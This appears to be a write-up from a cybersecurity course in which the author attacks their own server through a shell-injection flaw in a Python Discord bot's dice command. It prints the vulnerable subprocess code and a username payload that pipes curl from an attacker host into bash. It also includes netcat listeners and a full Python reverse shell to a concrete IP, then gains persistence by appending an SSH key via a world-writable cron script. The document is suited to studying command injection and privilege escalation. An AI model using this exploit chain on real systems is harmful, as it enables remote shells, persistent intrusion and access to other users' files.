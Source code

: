 # Exploiting Discord Bot Vulnerability to Gain Access to Game Server Files


---


## Introduction
I own a personal server that hosts both a game server and a Discord bot, which provides various functionalities to players, such as displaying game statistics, rolling dice, and many others.

The Discord bot is a program that continuously listens to messages in a designated chat channel and executes commands or functions depending on the message content.

During a Cybersecurity course, I discovered a vulnerability in the Discord bot’s Python code that allows remote code execution without requiring user interaction. Exploiting this flaw, combined with a misconfiguration in the file permissions of a script, I was able to gain unauthorized access to the game server’s files.  





### Server Enviroment
The game server and the Discord bot are running under two different system users to enforce a basic privilege separation:

- The Discord bot runs under `user-a`.
- The game server runs under `user-b`, which owns all the game files.


### Vulnerability
The Vulnerability is a line in the code of the funcion "dice" that permits code injection by changing the username of the Discord Accounts
```python
if message.content.startswith('!dice'):
    dice = random.randint(1,6)
    username = message.author.display_name
    subprocess.run(f'python3 ./logWriter.py {username} {dice}', shell=True)  #  <--- Vulnerable code
    await message.channel.send(f"{username}, hai estratto: {dice}")
```
Since the code is executed in a shell, inserting a ; in the username allows the shell to treat what follows as a separate command instead of passing it as a parameter to logWriter.py.


### Misconficuration
In addition to the code injection vulnerability, the system also presented a misconfiguration related to file permissions. The `server_start.sh` script, which is executed at system startup via a crontab entry belonging to `user-b`, was located inside `user-a`'s home directory with permissions set to `rwxrwxrwx`, allowing any user on the system to modify it.

Since this script is executed by the game server process running under `user-b`, modifying its content and then restarting the server makes it possible to execute arbitrary code with `user-b`'s privileges, ultimately granting access to the game server files.

  
---



## Threat model
- Attacker has access to send messages in the Discord chat monitored by the bot.  
- Attacker is aware of the injection vulnerability in the bot’s username handling.
  
---



## Attacker Setup
The Attacker uses 2 netcat processes, one listening on 8080, the other on 8081.
#### Nat Configuration
![Nat Configuration](images/Nat_Configuration.png)

#### Server process 1
```
clear
while true; do
nc -l -p 8080 -w 1 < response.txt
done
```
#### Server process 2
```
clear
nc -lvnp 8081
```

In the response.txt file there is the payload that the attacker wants to execute, wich is sent as a response to http get requests to `process 1`.
  
---


## Exploit
The desired payload can not always be injected directly through the username due to the 32-character limit (including spaces).  
To work around this limitation, a remote listener was set up to serve the full payload.  
The exploit injects a command in the username that makes the bot fetch and execute code from a remote `response.txt` file.  
The username used for this injection was:

```
;curl ip-attacker:8080 | bash;
```

  
---

## Execution

#### 1)Reverse Shell

The file `response.txt` was created with the following content to establish a reverse shell:


```
HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 197

python3 -c
'import socket,subprocess,os;
s=socket.socket();
s.connect(("79.40.232.212",8081));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
```
This Python command creates a reverse shell:

- It opens a socket connection to `79.40.232.212` on port `8081`.
- It redirects the socket file descriptor to stdin (`0`), stdout (`1`), and stderr (`2`), effectively binding the shell’s input and output to the network connection.
- It starts an interactive `/bin/sh` shell, allowing the attacker to execute commands remotely through the established connection.

#### 2)Listeners
Two listener processes were set up on the attacker machine by running the corresponding server code to serve the malicious payload and receive the reverse shell connection.

#### 3)Username
The Discord username was modified to include a shell injection payload due to the vulnerability in the bot’s input handling.  
The username was set to:

`;curl ip-attacker:8080 | bash;`

#### 4) Triggering the Vulnerability

With the username set, the attacker can trigger the exploit by sending the command `!dice` to the bot.

  

---

## Post-Exploitation
Once i obtained a reberse shell, and i was able to navigate inside the user-a folder, accessing all doscord bot's files, including user-b's script `server_start.sh`

![Nat Configuration](images/Initial_Access.png)

But i did not have access rights to user-b folder, containing the game server's files
![Nat Configuration](images/Screenshot_tree.png)

  
---

## Privilege Escalation

One way to gain access to the `/home/user-b` files was to modify the `server_start.sh` script. Since this script is executed by a cron job with the `@reboot` directive, any modification would be executed automatically on the next server reboot, running with `user-b`'s privileges.

However, relying on server restarts each time to execute arbitrary code would be impractical. Therefore, to gain persistent access as `user-b`, I injected a public SSH key into `user-b`'s `authorized_keys` file. This allowed me to establish an SSH connection directly as `user-b`, granting continuous access to the required files without waiting for server reboots.

First, I generated an SSH key pair using `ssh-keygen`:

```
$ ssh-keygen
Generating public/private ed25519 key pair.
Enter file in which to save the key (/home/attacker/.ssh/id_ed25519): /home/attacker/.ssh/innocent_key
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /home/attacker/.ssh/innocent_key
Your public key has been saved in /home/attacker/.ssh/innocent_key.pub
The key fingerprint is:
SHA256:choqayqE6Q8JhczNELYiT7055YgjVS9IVNSOgiAP5XM attacker@attacker
The key's randomart image is:
+--[ED25519 256]--+
| *=o+.           |
|B+=+ ..          |
|*BBoEoo          |
|+=o+.B.          |
|+.+.= + S        |
|+o.. o =         |
|oo. . .          |
|..oo             |
|ooo.             |
+----[SHA256]-----+
```

Then, I appended the generated public key to `user-b`'s `authorized_keys` by modifying `server_start.sh` as follows:

```
echo "echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGzTv8FEFTYsiVF7rOQFz/+Zme92ZgdrAvfe0KavA4xA'
>> /home/user-b/.ssh/authorized_keys" >> server_start.sh
```

This ensured that, upon the next reboot, the server would automatically add the attacker's public key, granting SSH access as `user-b`.
  
----

## Server Restart

After modifying the `server_start.sh` script to include the attacker’s public SSH key, it was necessary to wait for the server to restart in order to trigger the cron job execution.  
Once the server rebooted, the injected code ran with `user-b` privileges, granting persistent access to the game server files and enabling SSH login as `user-b`.
